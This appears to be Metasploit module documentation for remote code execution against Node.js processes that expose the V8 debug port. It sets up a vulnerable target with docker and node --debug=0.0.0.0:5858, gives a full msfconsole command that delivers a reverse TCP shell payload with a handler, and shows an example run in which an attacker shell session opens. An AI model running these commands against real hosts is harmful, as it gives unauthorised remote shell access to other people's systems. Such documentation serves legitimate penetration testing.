## Vulnerable Application

Current and historical versions of node (or any JS env based on the 
V8 JS engine) have this functionality and could be exploitable if
configured to expose the JS port on an untrusted interface.

Install a version of node using any of the normal methods: 
* Vendor: https://nodejs.org/en/download/package-manager/
* Distro: `sudo apt-get install nodejs` 

Alternately, use standard node docker containers as targets:
```
$ docker run -it --rm -p 5858:5858 node:4-wheezy node --debug=0.0.0.0:5858
```
(Others at https://hub.docker.com/_/node/)

Tested on Node 7.x, 6.x, 4.x

## Verification Steps

1. Run a node process exposing the debug port
```
node --debug=0.0.0.0:5858 
```

2. Exploit it and catch the callback:

```
msfconsole -x "use exploit/multi/misc/nodejs_v8_debugger; set RHOST 127.0.0.1; set PAYLOAD nodejs/shell_reverse_tcp; set LHOST 127.0.0.1; handler -H 0.0.0.0 -P 4444 -p nodejs/shell_reverse_tcp; exploit
```
(If using docker hosts as targets for testing, ensure that LHOST addr is accessible to the container)

Note that in older Node versions (notably 4.8.4), the debugger will not immediately process the incoming eval message. As soon as there is some kind of activity 
(such as a step or continue in the debugger, or just hitting enter), the payload will execute and the handler session will start.


## Scenarios

### Example Run (Node 7.x)

Victim:
```
$ node --version
v7.10.0
$ node --debug=0.0.0.0:5858
(node:83089) DeprecationWarning: node --debug is deprecated. Please use node --inspect instead.
Debugger listening on 0.0.0.0:5858
>
(To exit, press ^C again or type .exit)
```

Attacker:
```
msf exploit(nodejs_v8_debugger) > exploit

[*] Started reverse TCP handler on 10.0.0.141:4444
[*] 127.0.0.1:5858 - Sending 745 byte payload...
[*] 127.0.0.1:5858 - Got success response
[*] Command shell session 4 opened (10.0.0.141:4444 -> 10.0.0.141:53168) at 2017-09-04 00:37:17 -0700

id
(redacted)
``` 

